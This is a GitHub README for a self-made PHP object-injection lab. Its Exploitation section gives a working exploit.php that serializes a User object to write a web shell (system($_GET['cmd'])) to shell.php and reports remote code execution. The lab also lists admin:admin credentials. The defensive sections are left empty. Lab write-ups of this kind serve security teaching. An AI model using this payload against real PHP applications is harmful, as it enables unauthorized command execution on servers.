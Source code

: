 # InsecureDeserialization-lab2

### 1-Description
```
In this lab i have decided to create an exploitable app that use php serialize() / unserialize()
and the magic method __destruct() magic method which is called whenever an object is destroyed.
```
### 2-Ressoources
```
https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection

https://www.php.net/manual/en/function.unserialize.php

https://securitycafe.ro/2015/01/05/understanding-php-object-injection
```

### 3-SafeNote Kepper
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/bdf7e33f-2a43-4e4f-ad73-1024b353b22f)

Login as admin!!!
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/73adb498-d9cc-4448-9314-e0231bc63db6)

```
admin:admin
```
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/0117bedf-4dce-474a-ad74-b9e1dbde2d42)
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/6552f369-ba38-464c-8037-d11a02118f8c)

### 4-Vulnerability
```

```

### 5-Exploitation
exploit.php!!!
```php
<?php
class User{
    public $name = "admin";
    public $level = "";
    public $filename = "shell.php";
    public $message = "<?php system(\$_GET['cmd']); ?>";
}
//admin 
$admin = new User();
echo serialize($admin);
echo "\n";
$Token1 = base64_encode(serialize($admin));
echo $Token1;
?>
```
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/ee403d0c-f105-4679-9009-b83f0d708ab7)
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/ceac29d4-e457-47d7-a9e2-5e5424aabec6)
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/4ddab522-b569-4425-92cf-83d2d44b6f38)
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/a24a70e1-fbd0-48fa-9236-037b978a4bf3)
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/0eba3886-696c-48b6-97e0-31e6befc6c2d)
RCE!!!
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/07032ba2-6d44-4b86-abd9-c1837a1c4e6b)
### 6-Recommendations
```

```

### 7-Labs
```
Debug(Tryhackme)
```
